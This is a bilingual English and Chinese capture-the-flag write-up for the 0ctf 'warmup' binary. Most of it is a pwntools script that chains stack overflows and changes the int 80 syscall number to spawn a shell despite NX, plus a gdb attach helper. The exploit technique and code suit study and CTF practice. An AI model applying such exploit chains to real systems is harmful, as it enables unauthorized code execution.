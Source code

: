 #Exploit2_warmup
  
  This program first prints "Welcome to 0ctf!" and then goes into a function that reads a string from user input.  
  
  Since the NX option is on, we cannot directly put shellcode on stack. Instead, we change the int 80 system call number in eax , thus alter its function.  
  
  The script and explanation are as follows  
  
```python
from pwn import *
p=process('./warmup')
p.recvuntil('!')
s=raw_input()

p.send('0'*32+p32(0x80480d8))
  #first overflow, after which jump to start of program#Line 1

p.send('a'*0x30+p32(0x804811d))
  #to get another 104 bytes input#Line2
  #after this the program may quit due to eax<0

p.send(p32(0x80480d8)+p32(0)+p32(0x80491BC)+p32(16)) 
  #back to the beginning #Line3

p.send('/bin/sh\x00'+p32(0x80491BC)+p32(0))
  #to put '/bin/sh' to .data segment,
  #after this jump to 80480d8

p.send('a'*(0x34-20)+p32(0x804811D))
  #jmp to read_func again

p.send(p32(0x8048122)+p32(0)+p32(0x80491BC)+p32(0x80491BC+8)+'/bin/sh\x00\xbc\x91\x04')
  #fd=0,&buffer=0x80491bc,len=whatever,return value=11
  #then jmp to 0x8048122 and do exec, so we successfully spawn a shell ^_^

p.interactive()
```
  And the code used to launch the program and attach gdb to it is attached below, cauz I spent a lot of time struggling with itT T.

bashscript.sh
```
#!/bin/bash
gnome-terminal -x bash -c "python script.py"
sleep 1s
gdb attach `ps -aux|grep ./warmup$ -w|awk '{print $2}'`
```

#中文版  
  
这个程序开了个NX防护，所以shellcode并不能直接放在栈上。那怎么办呢？幸好程序中输入输出都是用的int 80系统调用，这种调用根据eax寄存器中储存调用号的不同，可以执行读、写、执行等不同操作。所以我们就可以通过篡改调用号，来改变调用的功能。  

  脚本及解释如下  
```python
from pwn import *
p=process('./warmup')
p.recvuntil('!')
s=raw_input()

p.send('0'*32+p32(0x80480d8))
  #第一次溢出，跳回到程序开头
  #为什么不是只跳到read_func开头呢，因为要抬高栈（不太懂= =

p.send('a'*0x30+p32(0x804811d))
  #第二次溢出，跳到read开头，继续获取输入

p.send(p32(0x80480d8)+p32(0)+p32(0x80491BC)+p32(16)) 
  #第三次溢出再次跳回到开头，把16个字节放到数据段
  #放完之后跳回80480d8

p.send('/bin/sh\x00'+p32(0x80491BC)+p32(0))
  #16个字节的内容

p.send('a'*(0x34-20)+p32(0x804811D))
  #第四次溢出再跳一次read_func

p.send(p32(0x8048122)+p32(0)+p32(0x80491BC)+p32(0x80491BC+8)+'/bin/sh\x00\xbc\x91\x04')
  #设置int 80的参数fd=0,&buffer=0x80491bc,len=whatever
  #并且使得返回值为11
  #最后跳到8048122去执行shell

p.interactive()
```
  如果是本地溢出的话这样子就可以了，然而曾老师说因为当时服务器上的程序被沙盒保护，无法开进程  
  所以需要同样的方法把eax设置为5打开文件，设置为3读取文件，再设置为4从而打印在屏幕上  
  也就是说要多跳很多很多次= =他们能做出来也是腻害啊我天
